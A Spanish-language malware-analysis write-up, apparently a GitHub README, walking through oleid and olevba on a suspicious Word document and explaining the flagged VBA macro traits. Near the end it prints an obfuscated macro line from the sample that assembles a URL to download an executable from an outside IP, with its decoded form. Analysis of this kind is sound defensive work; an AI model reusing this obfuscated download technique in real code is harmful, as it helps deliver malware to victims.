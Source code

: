 ## Hay que seguir analizando los siguientes archivos:

![image](https://github.com/user-attachments/assets/8dc23c1c-7968-4273-8f2b-d3f62130abca)

En este analisis nos vamos a centrar en el analisis de **VBA Macros*. Los macros VBA (Visual Basic for Applications) se utilizan en aplicaciones de Microsoft Office, como Excel, Word y PowerPoint, para automatizar tareas repetitivas. Sin embargo, algunas macros pueden convertirse en malware si son diseñadas con intenciones maliciosas. Existen herramientas como **oleid** y **olevba** que detectan si hay uso de VBA Macros maliciosos.

## oleid
- A diferencia de `olevba`, esta herramienta es para hacer un analisis basico
- Se usa para detectar rapidamente la presencia de macros
- Comprobar si el archivo esta cifrado
- Indica si hay enlaces externos maliciosos
Comando utilizado: `oleid baddoc.doc`

![image](https://github.com/user-attachments/assets/fc33a9af-9a0d-432b-8417-81548b070834)

Indica que hay VBA Macros por lo que el siguiente paso es usar `olevba` para un analisis mas profundo.

## olevba
Es una herramienta más avanzada que extrae y analiza macros VBA (Visual Basic for Applications) de archivos OLE. Su objetivo principal es detectar y examinar código VBA malicioso.
- Extraer macros VBA de un archivo.
- Detectar patrones comunes de malware en macros.

Comando utilizado: `olevba baddoc.doc`
![image](https://github.com/user-attachments/assets/f47691c9-aaee-423f-b464-d6e34609cd07)

> - Indica lo que hace cada parte del codigo, por ejemplo `User-Agent` el cual podria descargar archivos de internet.
>
> ![image](https://github.com/user-attachments/assets/54dceb06-3826-4fa5-978d-9f0c7dd6e171)

 
> - `Kill` elimina archivos.
>   
> ![image](https://github.com/user-attachments/assets/b0daf486-ac62-4e2f-b2bd-741143904213)

> - `Base64 Strings`,`Hex strings` y `Chr` es una manera de ofuscar el codigo para que no sea detectado como malware.
>
> ![image](https://github.com/user-attachments/assets/7239f99b-e906-41f4-a5b7-be6e83baf83a)
>
> ![image](https://github.com/user-attachments/assets/6fefe10e-3b16-4a5a-8ed1-d6454392b1ba)
>
> - **Codigo ofuscado:** `Print #FileNumber, "strRT = " + Chr(34) + "h" + Chr(Asc(Chr(Asc("t")))) + "t" + "p" + "://91.220.131" + JASHDUIQWHDKJQAD + "." + Chr(Asc("e")) + Chr(Asc("x")) + "e" + Chr(34)`
>
> - **Codigo pasado a texto claro:** `strRT = "http://91.220.131100.exe"`
